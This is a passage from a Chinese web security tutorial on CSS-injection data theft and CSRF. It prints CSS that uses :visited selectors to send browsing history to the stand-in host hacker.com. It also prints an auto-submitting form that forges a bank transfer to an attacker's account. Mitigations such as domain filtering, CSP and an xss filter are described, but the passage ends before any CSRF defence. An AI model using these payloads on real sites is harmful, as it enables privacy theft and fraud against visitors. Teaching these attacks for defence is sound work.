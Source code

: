 这样，只要任意用户访问别人的空间时，点击页面上的登录控件，注入的 CSS 就会对密码输入框生效，用户登录的密码前缀匹配这些规则，浏览器就会请求背景图对应的 URL，以此导致用户密码泄露。

此外，恶意用户可以利用 CSS 的 `:nth-child`、`:visited` 等伪类，达到窃取隐私的目的：

```css
a:nth-child(1):visited {
  background-image: url('https://hacker.com/?vi=1');
}
a:nth-child(2):visited {
  background-image: url('https://hacker.com/?vi=2');
}
a:nth-child(3):visited {
  background-image: url('https://hacker.com/?vi=3');
}
/* ... */
```

所以，网站如果想提供自定义 CSS，则需要对 CSS 内容进行识别判断，滤出其中所有非安全域名。
CSS 具备 `@import()` 引入其他样式表的能力，具备从 URL 加载背景图、加载字体（字体不能跨域）的能力，这些都要考虑到。

你也可以使用 CSP，但是它只能一次性设置网站加载所有图片的规则，不能单独针对某一个 CSS 设置：

```
Content-Security-Policy: img-src 'self' https://example1.com https://example2.com;
```

<br />

看到这里，你可能也意识到了，即使不允许自定义 CSS，只要网站允许用户使用 HTML 标签，那么恶意用户就可能通过在标签中添加 `style="background-image: url(...)"` 这种方式，实现窃取访客的隐私。

不过，可以使用 `xss` 来对用户的输入进行安全过滤，这个工具会剔除标签的 `style` 属性，避免出现上述问题。



# CSRF 跨站请求伪造

考虑如下场景：
某网银网站使用 Cookie 对用户进行鉴权，其有一个转账接口，假设接口是这样的：

```http
POST https://bank.com/api/transfer
```

参数：

```json
{
  amount: 10000,
  to_account: 123456
}
```

此时，某恶意用户自制一个网站，网站上放置以下内容：

```html
<form action="https://bank.com/api/transfer" method="POST" id="form">
  <input type="hidden" name="amount" value="10000">
  <input type="hidden" name="to_account" value="<黑客的账户>">
</form>
<script>
  document.getElementById('form').submit();
</script>
```
